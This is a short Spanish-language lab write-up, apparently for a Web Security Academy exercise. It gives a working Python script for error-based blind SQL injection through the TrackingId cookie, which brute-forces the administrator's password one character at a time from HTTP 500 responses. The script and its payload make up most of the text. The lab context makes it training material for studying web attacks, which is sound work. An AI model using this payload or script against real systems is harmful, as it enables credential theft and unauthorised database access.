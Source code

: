 Si en el **Tracking Id** podemos una camilla nos sale un error con el código 500 así que pues bueno va a ser lo mismo pero ahora basándonos en el error pero bueno si es que cambian algunas cosas pero en el siguiente script de **Python3** la inyeccion quedaria lista 

```bash
#!/usr/bin/python3 

from pwn import *
import requests, time, signal, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c 
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a77003e03026052829c9d1f00cf006c.web-security-academy.net/"
characters = string.ascii_lowercase + string.digits

def makeRequest():
    
    password = ""

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando Fuerza Bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21): # Longitud de la contraseña 
        for character in characters:    
            
            cookies = {
                'TrackingId': "TrackingId=RYv84rwBNkKgrR6I'||(select case when substr(password,%d,1)='%s' then to_char(1/0) else '' end from users where username='administrator')||'" % (position, character),
                'session': 'uMuOQ5tR8SukkqghM9kJijQdjAhx55n6'
            }

            p1.status(cookies['TrackingId'])

            r = requests.get(main_url, cookies=cookies)

            if r.status_code == 500: # Codigo de estado
                password += character
                p2.status(password)
                break
if __name__ == '__main__':
    makeRequest()

```
